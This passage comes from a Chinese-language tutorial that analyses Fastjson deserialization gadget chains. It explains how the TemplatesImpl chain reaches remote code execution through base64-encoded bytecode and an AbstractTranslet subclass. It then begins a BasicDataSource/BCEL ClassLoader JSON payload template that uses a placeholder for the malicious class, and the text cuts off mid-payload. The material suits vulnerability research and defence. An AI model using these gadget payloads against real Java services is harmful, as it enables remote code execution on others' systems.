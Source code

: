 ```java
// name不能为空所以在payload中设置a.b
if (_name == null) return null;
// 关键
if (_class == null) defineTransletClasses();

// The translet needs to keep a reference to all its auxiliary
// class to prevent the GC from collecting them
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
```
再跟入`defineTransletClasses`，对父类进行了验证，这样解释了为什么Payload恶意类要继承自该类。如果验证没有问题，将在上方的`newInstance`方法中实例化该类，造成RCE
```java
private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";

if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    _transletIndex = i;
}
```
为什么`_bytescode`要对字节码进行base64编码？反序列化的过程中会调用很多类，在经过该类`com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze`的时候，会对字段进行一次base64的解码
```java
......        
if (token == JSONToken.LITERAL_STRING || token == JSONToken.HEX) {
    byte[] bytes = lexer.bytesValue();
    ......
```
跟入`lexer.bytesValue()`方法，看到`decodeBase64`
```java
public byte[] bytesValue() {
    ......
    // base64解码
    return IOUtils.decodeBase64(buf, np + 1, sp);
}
```
总结：

- TemplatesImpl类是Java反序列化界比较常用的类，更容易理解和上手
- 需要开启`Feature.SupportNonPublicField`，实战中不适用
<a name="wGuPu"></a>
### BasicDataSource
```java
String payload = "{\n" +
    "    \"name\":\n" +
    "    {\n" +
    "        \"@type\" : \"java.lang.Class\",\n" +
    "        \"val\"   : \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"\n" +
    "    },\n" +
    "    \"x\" : {\n" +
    "        \"name\": {\n" +
    "            \"@type\" : \"java.lang.Class\",\n" +
    "            \"val\"   : \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
    "        },\n" +
    "        \"y\": {\n" +
    "            \"@type\":\"com.alibaba.fastjson.JSONObject\",\n" +
    "            \"c\": {\n" +
    "                \"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
    "                \"driverClassLoader\": {\n" +
    "                    \"@type\" : \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
    "                },\n" +
    "                \"driverClassName\":\"!!!Payload!!!\",\n" +
    "\n" +
    "                     \"$ref\": \"$.x.y.c.connection\"\n" +
    "\n" +
```